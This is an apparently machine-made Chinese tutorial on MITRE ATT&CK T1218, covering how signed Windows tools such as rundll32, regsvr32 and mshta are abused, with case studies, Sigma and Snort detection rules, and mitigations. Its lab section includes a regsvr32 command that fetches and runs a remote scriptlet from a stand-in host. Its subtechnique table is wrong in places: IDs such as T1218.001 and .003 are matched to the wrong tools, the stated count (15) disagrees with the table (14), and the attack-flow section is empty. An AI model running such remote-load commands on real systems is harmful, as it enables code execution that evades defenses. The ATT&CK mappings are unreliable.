

# 系统二进制代理执行 (T1218)

## 一句话通俗理解

> **系统二进制代理执行就是让系统工具帮你跑恶意代码** -- 用系统自带的工具代替自己执行，让安全软件以为是在进行正常管理操作。

## 难度等级

- ⭐⭐ 中级（需要一定基础）

需要了解Windows自带二进制工具的特性，不需要编程基础。

## 技术描述

系统二进制代理执行（System Binary Proxy Execution，T1218）是MITRE ATT&CK框架中防御削弱战术的重要技术。

**通俗解释：**
你想在大楼里搞破坏，但不想自己动手，于是你让大楼的保安队长（系统合法工具）去帮你按按钮。保安队长大楼保安认识（因为是系统程序），没人会拦他。这就是系统二进制代理执行 -- 使用系统自带的、经过数字签名的二进制程序来执行恶意代码。

**技术原理：**
Windows提供了多种系统二进制工具，它们的设计初衷是系统管理，但可以被滥用来执行恶意代码：

1. **rundll32.exe**：执行DLL中的导出函数，可执行shellcode
2. **regsvr32.exe**：注册COM组件，可加载远程SCT文件
3. **mshta.exe**：执行HTA应用，支持VBScript和JavaScript
4. **cscript/wscript**：执行VBScript和JScript脚本
5. **cmstp.exe**：连接管理器配置，可执行任意命令
6. **installutil.exe**：.NET安装工具，可执行.NET程序集

**用途与影响：**
系统二进制代理执行的核心优势在于利用"信任"。经过微软签名的系统二进制文件通常不会被安全软件拦截，即使它们被用来执行恶意操作。这类技术在现代攻击中被广泛使用。

## 子技术列表

**该技术共有 15 个子技术：**

| 子技术ID | 中文名称 | 通俗解释 |
|----------|----------|----------|
| T1218.001 | cmstp.exe | 连接管理器配置工具，可执行任意命令 |
| T1218.002 | ODBCODBC驱动程序管理器 | 利用ODBC驱动执行代码 |
| T1218.003 | IEExec远程执行 | 使用IEExec执行.NET程序 |
| T1218.004 | InstallUtil | 使用.NET安装工具执行恶意程序集 |
| T1218.005 | Mshta | 执行HTA应用、VBScript、JavaScript |
| T1218.007 | Msiexec | Windows安装程序，可执行DLL |
| T1218.008 | Odbcconf | ODBC配置工具，可执行DLL |
| T1218.009 | Register-CimProvider | CIM提供程序注册工具 |
| T1218.010 | Regsvr32 | 注册COM组件，可加载远程DLL |
| T1218.011 | Rundll32 | 执行DLL的导出函数 |
| T1218.012 | Verclsid | COM组件兼容性评估器 |
| T1218.013 | Mavinject | App-V注入工具 |
| T1218.014 | MMC | Microsoft管理控制台 |
| T1218.015 | WSReset | Windows Store重置工具 |

## 攻击流程



## 真实案例

### 案例1：APT使用mshta执行恶意HTA文件（2017-2024年）
- **时间**: 2017-2024年
- **目标**: 全球政府和企业
- **攻击组织**: 多个APT组织
- **手法**: 攻击者通过鱼叉钓鱼邮件分发包含恶意HTA文件的附件，用户打开后mshta.exe自动执行HTA文件中的VBScript代码，下载后续载荷。

### 案例2：DarkGate使用regsvr32远程加载恶意DLL（2023-2024年）
- **时间**: 2023-2024年
- **目标**: 全球企业
- **攻击组织**: DarkGate
- **手法**: DarkGate通过钓鱼邮件引导用户执行regsvr32.exe从远程WebDAV服务器加载恶意SCT文件。由于regsvr32是微软签名的系统工具，可以绕过基于进程白名单的检测。

### 案例3：QakBot使用rundll32执行恶意DLL（2023-2024年）
- **时间**: 2023-2024年
- **目标**: 全球金融机构
- **攻击组织**: QakBot
- **手法**: QakBot的DLL加载器使用rundll32.exe来执行恶意DLL中的导出函数。
- **参考**: [CISA - QakBot Advisory](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-316a)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

**实战技巧：**
1. rundll32是最常用的代理执行工具，灵活性强
2. regsvr32的远程SCT加载可以实现无文件攻击

### 常用工具

| 工具名称 | 用途 | 平台 |
|----------|------|------|
| rundll32.exe | 执行DLL导出函数 | Windows |
| regsvr32.exe | 注册COM组件 | Windows |
| mshta.exe | 执行HTA应用 | Windows |
| InstallUtil.exe | .NET安装工具 | Windows |

### 注意事项
- 安全产品已经针对这些常见工具建立了检测规则
- 使用远程加载时，网络层面的检测可能会捕获通信

## 蓝队视角

**检测要点：**
- 监控系统二进制工具从非标准位置加载DLL
- 监控系统工具访问远程URL
- 监控系统工具创建子进程执行PowerShell或cmd

**防御重点：**
- 启用Sysmon监控进程创建、网络连接和DLL加载
- 监控异常的工具使用行为（如regsvr32访问HTTP URL）
- 配置WDAC限制系统工具的行为

## 检测建议

### 网络层检测

**检测方法：** 监控系统二进制工具（rundll32、regsvr32等）发起的异常网络连接

**具体规则/命令示例：**
```bash
# 检测rundll32的异常网络请求
alert tcp $HOME_NET any -> $EXTERNAL_NET any (msg:"LOLBin - Rundll32 Network Connection"; flow:to_server; content:"rundll32"; nocase; pcre:"/javascript|http/Hi"; classtype:trojan-activity; sid:1000050; rev:1;)

# 检测Mshta执行远程HTA脚本
alert tcp $HOME_NET any -> $EXTERNAL_NET any (msg:"LOLBin - Mshta Remote HTA Load"; flow:to_server; content:"mshta"; nocase; pcre:"/http/Hi"; classtype:trojan-activity; sid:1000051; rev:1;)
```

### 主机层检测

**检测方法：** 监控系统二进制工具的进程创建，重点关注异常参数和子进程行为

**Windows事件ID：**
- Sysmon事件ID 1：监控rundll32、regsvr32、mshta、cmstp、installutil等工具的执行
- 事件ID 4688：监控LOLBins的进程链关系
- 重点关注：二进制从其标准路径执行但包含异常参数

**Linux日志：**
- Linux系统二进制代理执行对应技术有限（主要通过python -c、lua等）
- 日志文件：`/var/log/audit/audit.log`
- 关键字段：`python3 -c`、`lua -e`等执行编码命令

**具体命令示例：**
```powershell
# 检测rundll32执行JavaScript
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational';ID=1} | Where-Object {$_.Message -match 'rundll32' -and $_.Message -match 'javascript'}
```

### 应用层检测

**Sigma规则示例：**
```yaml
title: Rundll32 Execution with Suspicious Parameters
status: experimental
description: Detects rundll32 running with suspicious parameters
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image|endswith: '\rundll32.exe'
        CommandLine|contains:
            - 'javascript:'
            - 'http://'
            - 'https://'
            - '.dll,'
    condition: selection
level: medium
tags:
    - attack.t1218
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 配置ASR规则阻止系统二进制异常执行

**具体实施步骤：**
1. 启用ASR规则"阻止Office创建子进程"
2. 启用ASR规则"阻止从电子邮件中下载的可执行内容"
3. 启用ASR规则"阻止JavaScript或VBScript启动可执行文件"

**配置示例：**
```powershell
# 配置ASR规则
Add-MpPreference -AttackSurfaceReductionRules_Ids "3B576869-A4EC-4529-8536-B80A7769E899" -AttackSurfaceReductionRules_Actions Enabled
```

### 优先级2：重要措施

**措施名称：** 配置应用程序白名单控制

**具体实施步骤：**
1. 配置AppLocker或WDAC限制系统工具在非预期场景下的使用
2. 监控系统二进制工具（rundll32、regsvr32、mshta等）的异常行为
3. 对关键系统二进制启用Hash强制规则

**配置示例：**
```powershell
# 创建AppLocker可执行文件规则
New-AppLockerPolicy -RuleType Publisher -User Everyone -Path "C:\Windows\System32\*.exe"
```

### MITRE ATT&CK缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1038 | 执行防护 | 适用 | 启用Windows Defender ASR规则阻止Office创建子进程 |
| M1045 | 软件限制策略 | 适用 | 配置AppLocker或WDAC限制系统工具的使用 |
| M1047 | 审计 | 适用 | 监控系统二进制工具的异常行为 |
## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验1：使用rundll32执行（初级）
```cmd
rundll32.exe user32.dll,MessageBoxA 0 "test" "test" 0
```

### 实验2：使用regsvr32远程加载（中级）
```cmd
regsvr32 /u /s /i:http://example.com/payload.sct scrobj.dll
```

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| LOLBin | Living off the Land Binary | 可被滥用的系统合法二进制工具 |
| HTA | HTML Application | HTML应用，支持VBScript和JavaScript |
| SCT | Scriptlet File | 脚本组件文件 |
| WebDAV | Web Distributed Authoring and Versioning | 基于HTTP的文件共享协议 |

## 参考资料

- [MITRE ATT&CK - T1218 System Binary Proxy Execution](https://attack.mitre.org/techniques/T1218/)
- [CISA - QakBot Advisory](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-316a)
- [LOLBAS Project](https://lolbas-project.github.io/)
